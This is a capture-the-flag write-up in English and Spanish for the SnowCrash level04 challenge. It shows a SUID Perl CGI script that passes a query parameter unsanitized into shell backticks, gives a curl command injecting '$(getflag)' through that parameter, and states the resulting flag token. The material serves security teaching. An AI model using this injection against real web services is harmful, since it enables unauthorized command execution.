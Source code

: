 # Flag 04

## Tools Used:

* `ls` command
* `curl`
* Basic understanding of CGI scripting and command injection

## Process:

Upon accessing the `level04` account, listing the files reveals an executable Perl script:

```bash
level04@SnowCrash:~$ ls -la
```

Key file:

```
-rwsr-sr-x 1 flag04  level04  152 Mar  5  2016 level04.pl
```

The presence of the **SUID** bit means this script will run with `flag04`’s privileges.

Inspecting the script:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Key observations:

1. The script is a **CGI** script running on **localhost:4747**.
2. The value of the `x` parameter in the query string is passed to an `echo` command without sanitization.

### Exploitation:

We can inject a command by using shell expansion inside the parameter. The following command uses `curl` to send the malicious query:

```bash
level04@SnowCrash:~$ curl localhost:4747?x='"$(getflag)"'
```

The response reveals the flag:

```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

# Flag 04

## Herramientas Utilizadas:

* Comando `ls`
* `curl`
* Conocimientos básicos de CGI y de inyección de comandos

## Proceso:

Al acceder a la cuenta `level04`, al listar los archivos se encuentra un script Perl ejecutable:

```bash
level04@SnowCrash:~$ ls -la
```

Archivo clave:

```
-rwsr-sr-x 1 flag04  level04  152 Mar  5  2016 level04.pl
```

La presencia del bit **SUID** significa que este script se ejecuta con los privilegios de `flag04`.

Inspeccionando el código:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Observaciones clave:

1. El script es un **CGI** que corre en **localhost:4747**.
2. El valor del parámetro `x` se pasa directamente a un comando `echo` sin validación.

### Explotación:

Podemos inyectar un comando usando expansión de shell dentro del parámetro. El siguiente comando envía la petición maliciosa:

```bash
level04@SnowCrash:~$ curl localhost:4747?x='"$(getflag)"'
```

La respuesta nos devuelve la flag:

```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

## Scripts Used:

None

## Flag:

```
ne2searoevaevoem4ov4ar8ap
```
